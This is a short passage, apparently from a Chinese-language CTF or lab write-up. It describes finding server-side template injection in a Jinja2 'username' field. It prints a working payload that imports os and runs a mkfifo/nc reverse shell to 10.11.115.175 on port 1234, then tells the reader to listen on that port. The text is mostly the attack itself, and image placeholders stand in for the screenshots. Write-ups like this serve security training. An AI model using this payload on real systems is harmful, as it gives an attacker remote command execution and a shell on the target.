 ![](images/202eb98a099a79a01208fae97b624f83.png)
发现导致Jinja2模板出现错误，所以username存在ssti攻击，并且使用就Jinja2模板引擎，写出反向shell直接rce

```
"username":"{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.11.115.175 1234 >/tmp/f').read() }}"
```

同时监听端口1234

![](images/2b0d196a421e05dda77bc52d47f54b7f.png)
